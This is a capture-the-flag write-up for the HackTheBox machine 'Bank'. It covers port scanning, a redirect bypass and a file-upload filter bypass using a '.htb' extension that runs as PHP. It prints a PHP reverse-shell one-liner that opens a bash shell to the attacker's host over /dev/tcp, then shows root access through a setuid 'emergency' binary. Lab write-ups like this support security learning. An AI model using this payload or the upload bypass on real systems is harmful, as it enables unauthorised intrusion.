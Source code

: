 ![](../img/Bank Writeup/1_N6NIlAZNK8OtlOA-K3ep0g.png)

host: `10.10.10.29`

**Serivce Discovery**

nmap -A 10.10.10.29

```
Host is up (0.23s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
| 2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|_ 256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
53/tcp open domain
| dns-nsid:
|_ bind.version: 9.9.5–3ubuntu0.14-Ubuntu
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-title: HTB Bank — Logi
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

And we can see that we have 3 services running ssh, dns and http. I tried accessing the web server by typing [http://10.10.10.29](http://10.10.10.29) in the url bar but it was just the default apache site.

I saw that dns was open so I edited /etc/hosts to contain the ip of the machine plus the name server of the machine . The default name server for all _HackTheBox_ machines is <name of box>.htb so I edited the hosts file as followed

```
cat /etc/hosts

127.0.0.1 localhost
127.0.1.1 Debian
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet

10.10.10.29 bank.htb
```

Now 10.10.10.29 resolves to bank.htb. I tried to do a zone transfer with dig but that didn’t give me any information, so I accessed bank.htb and we were automatically redirected to bank.htb/login.php it was a login page for the bank site, I used curl to see what was in bank.htb/ because I couldn’t access the root directory of the site it would always redirect me to /login.php with curl -v [http://bank.htb](http://bank.htb) you can see all the html source code for root directory of the site. Also it indicated that there was a 302 redirect.

```
< HTTP/1.1 302 Found
< Date: Fri, 25 Aug 2017 15:50:33 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9–1ubuntu4.21
< Set-Cookie: HTBBankAuth=mipq942thbgb8h1vuf94ck3u01; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< location: login.php
< Content-Length: 7322
< Content-Type: text/html
```

I then used DirBuster to find new files and directory in bank.htb. Most of the files and folders were 403,302 some 200 I found and interesting file named support and it was 200, so I tried accessing it but were being redirected to /login.php once again. So I installed this plugin on firefox called noredirect which allows to me stop any 302 redirections. For those who couldn’t get Noredirect installed on firefox because of the firefox version was outdated there was an option to install anyway at the bottom of the page. Alternatively could’ve used either Burpsuite or Zap-Proxy to catch the request and send it through as a 200 request.

![](../img/Bank Writeup/1_IisHUuXMYbKJMgCE9FNYEw.png)

I added [http://bank.htb/login.php](http://bank.htb/login.php) to the noredirect plugin so it would stop redirecting to /login.php everytime. Now I’m able to access [http://bank.htb/](http://bank.htb/) and we can see the transactions at the bank, and some other information… If we now go to /support.php we can see you can upload “tickets” as images, if you curl [http://bank.htb/support.php](http://bank.htb/support.php) and scroll through the html code you can see that the admin left him self a little nice note for himself.

**_“<! — [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] →”_**

I created a php shell as followed

```
<?php
exec(“/bin/bash -c ‘bash -i >& /dev/tcp/10.10.x.x/4444 0>&1’”);
```

and named it shell.php I tried uploading it as shell.php but the site only wanted images uploaded. Then I remember that .htb runs as php so I added the .htb extension for my php shell since it can execute as php “for debugging purposes” and the shell it’s uploaded. Now all I had to do is set up a netcat listener to catch the shell. `nc -l -v -p 4444`

once we catch the shell we go into the box as `www-data` in the directory `/var/www/bank/uploads/`

`www-data@bank:/var/www/bank/uploads$`

We can go into the user’s home directory chris and get the user flag user.txt,

**_Got User Flag!_**

Now time it’s time for privilege escalation. I started by just browsing through the directories and in /var I found a folder named htb inside htb I found two files with execute permissions

```
www-data@bank:/var/htb$ ls -la
total 16
drwxr-xr-x 3 root root 4096 Jun 14 18:25 .
drwxr-xr-x 14 root root 4096 May 29 18:41 ..
drwxr-xr-x 2 root root 4096 Jun 14 18:30 bin
-rwxr-xr-x 1 root root 356 Jun 14 18:30 emergency
```

it seems like the system administrator has left an emergency exploit in case he forgets the root password of the system…

My privilege before running the exploit
`uid=33(www-data) gid=33(www-data) groups=33(www-data)`

My privileges after running the emergency exploit

./emergency
`uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)`

and now we can get the root flag. `cat /root/root.txt`

**_Got Root Flag!_**
